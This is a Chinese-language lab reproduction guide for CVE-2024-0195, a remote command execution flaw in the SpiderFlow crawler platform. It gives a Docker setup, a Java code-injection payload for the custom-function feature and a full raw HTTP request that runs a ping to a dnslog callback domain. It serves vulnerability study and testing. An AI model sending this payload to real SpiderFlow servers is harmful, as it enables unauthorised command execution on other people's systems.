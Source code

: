 # CVE-2024-0195-SpiderFlow爬虫平台远程命令执行漏洞

spider-flow 是一个爬虫平台，以图形化方式定义爬虫流程，无需代码即可实现一个爬虫

官网地址：https://www.spiderflow.org/

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-0195
- https://blog.csdn.net/shelter1234567/article/details/135676548

## 漏洞环境

执行如下命令启动一个spiderflow-v0.5.0-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`无需登录即可查看spiderflow页面。



## 漏洞复现

在平台spiderflow的页面中有一个自定义函数

![image-20240229155240809](./1.png)

构造payload

![image-20240229160025959](./2.png)

```
return java.lang./****/Runtime};r=test();r.getRuntime().exec('ping 18k2tu.dnslog.cn');{
```

查看dnslog回显

![image-20240229160230327](./3.png)

burp发包

```
POST /function/save HTTP/1.1
Host: 192.168.116.128:8080
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 139

id=&name=test&parameter=test&script=return+java.lang.%2F****%2FRuntime%7D%3Br%3Dtest()%3Br.getRuntime().exec('ping+18k2tu.dnslog.cn')%3B%7B
```

